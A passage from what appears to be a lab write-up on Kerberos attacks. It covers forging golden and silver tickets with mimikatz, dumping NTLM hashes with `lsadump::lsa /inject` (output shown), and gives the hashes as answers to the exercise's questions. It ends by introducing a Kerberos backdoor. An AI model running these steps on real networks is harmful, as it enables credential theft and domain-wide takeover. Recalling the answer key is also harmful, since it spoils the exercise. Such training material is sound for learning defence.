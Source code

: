 **Tips:** to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

### Use the Golden/Silver Ticket to access other machines 

1.) `misc::cmd` – this will open a new elevated command prompt with the given ticket in mimikatz.

![](2025-05-31-attacking-kerberos-5.png)

2.) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.

![](2025-05-31-attacking-kerberos-6.png)

This attack will not work without other machines on the domain however I challenge you to configure this on your own network and try out these attacks.

### **Questions**

* What is the SQLService NTLM Hash? Answer: `cd40c9ed96265531b21fc5b1dafcfb0a`

```bash
mimikatz # lsadump::lsa /inject /name:SQLService  
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000455 (1109)  
User : SQLService

* Primary  
NTLM : cd40c9ed96265531b21fc5b1dafcfb0a  
---snip---
```

* What is the Administrator NTLM Hash? Answer: `2777b7fec870e04dda00cd7260f7bee6`

```bash
mimikatz # lsadump::lsa /inject /name:Administrator  
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 000001f4 (500)  
User : Administrator

* Primary  
NTLM : 2777b7fec870e04dda00cd7260f7bee6  
---snip---
```

## Kerberos Backdoors w/ mimikatz

Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.

